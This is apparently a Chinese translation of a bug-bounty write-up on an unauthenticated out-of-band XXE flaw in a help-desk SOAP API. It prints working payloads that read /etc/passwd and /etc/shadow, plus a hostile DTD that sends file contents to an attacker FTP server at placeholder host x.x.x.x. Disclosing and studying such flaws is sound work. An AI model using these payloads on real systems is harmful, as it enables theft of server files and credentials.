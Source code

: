 # 帮助台软件中基于 SOAP 的未经验证的带外 XML 外部实体(OOB-XXE)

> 原文：<https://infosecwriteups.com/soap-based-unauthenticated-out-of-band-xml-external-entity-oob-xxe-in-a-help-desk-software-c27a6abf182a?source=collection_archive---------0----------------------->

我省略了应用程序的名称，因为它是私有程序。

注册应用程序时，我得到了 wsdl 文件，如:

```
https://victim.com/services/ApiService?wsdl
```

我已经使用 wsdler burp 扩展来解析 wsdl 文件，如下图所示:

![](img/75e7b7f10d1f045cb2af97a8114b948f.png)

现在，我向中继器发出请求，并开始为 XXE 模糊它。首先，我从经典的 XXE 有效载荷开始，例如:

```
<?xml version=”1.0"?><!DOCTYPE data [<!ELEMENT data (#ANY)><!ENTITY file SYSTEM “file:///etc/passwd”>]><data>&file;</data>
```

![](img/f48134bae856c7f8c03ec11a43643332.png)

对于文件/etc/passwd

![](img/37e347704e95fb2f86886cab043de53c.png)

对于文件/etc/shadow

正如你所看到的，从上面两个响应我们可以确认漏洞的存在，但我们只能列举来自服务器的文件。

为了提取文件的内容，我们需要**模拟 FTP** - **服务器(或者如果您使用了不同的服务器，请评论:)**

我在服务器上设置了一个 xxe.dtd 文件，其有效负载如下:

```
<!ENTITY % d SYSTEM “file:///etc/passwd”><!ENTITY % c “<!ENTITY rrr SYSTEM ‘ftp://x.x.x.x:2121/%d;'>">
```

从以下链接下载并运行仿真 ftp 服务器(确保监听端口):

[](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb) [## ONsec-实验室/脚本

### Utils。在 GitHub 上创建一个帐户，为 ONsec-Lab/scripts 开发做贡献。

github.com](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb) 

现在，我们需要在易受攻击的请求中输入以下 XXE 有效负载，例如:

```
<!DOCTYPE a [ <!ENTITY % asd SYSTEM "http://x.x.x.x/xxe.dtd"> %asd; %c;]> <sessionId>&rrr;</sessionId>
```

![](img/35694578da50708c35eea14a61059e28.png)

最终 XXE 有效载荷

一旦运行易受攻击的请求，您将开始在仿真 FTP 服务器上接收/etc/passwd 文件的内容，如下面的屏幕截图所示:

![](img/64c1d4a89124a1f1c103b27d51335ec4.png)

参考资料:

```
[http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html?m=1](http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html?m=1)[https://gist.github.com/staaldraad/01415b990939494879b4](https://gist.github.com/staaldraad/01415b990939494879b4)`
```